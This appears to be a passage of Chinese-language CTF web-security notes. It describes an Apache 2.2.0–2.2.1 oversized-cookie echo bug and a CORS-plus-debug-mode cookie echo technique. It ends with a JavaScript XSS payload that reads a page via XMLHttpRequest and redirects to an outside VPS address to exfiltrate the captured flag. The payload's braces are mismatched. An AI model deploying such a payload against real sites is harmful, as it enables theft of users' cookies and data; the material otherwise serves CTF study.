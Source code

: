 影响版本：**Apache2.2.0-Apache2.2.1**

当客户端请求的cookie超过4KB时，无论cookie是否带有httponly，Apache HTTPD Server都会将Cookie的明文信息打印到页面上



## CORS+cookie回显

例题

https://nikoeurus.github.io/2019/11/14/UNCTF-Web%E5%A4%8D%E7%8E%B0/#easyxss

条件1

> response数据包中
>
> Access-Control-Allow-Headers: X-Requested-With，说明了我们可以通过**XHR**请求来访问网站
>
> `XMLHttpRequest`是用于在后台与服务器交换数据。如果设置XHR请求网站，那么请头部必然会带有：`Origin:xxx`，则会被服务器视为同源访问

条件2

没有关闭debug模式，导致cookie回显

![img](../../../images/39-1686840019399.png)

利用`location.href`重定向到vps，从而带出cookie

```js
<script>
var xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange=function(){
    if(xmlhttp.readyState==4){
        location.href='http://106.15.250.162:8888/?flag='+ xmlhttp.responseText.match('flag\\{(.\*?)\\}')[1]}};
    }
}
xmlhttp.open('GET','/index.php/treehole/view?id=',true);
xmlhttp.send('');
</script>
```
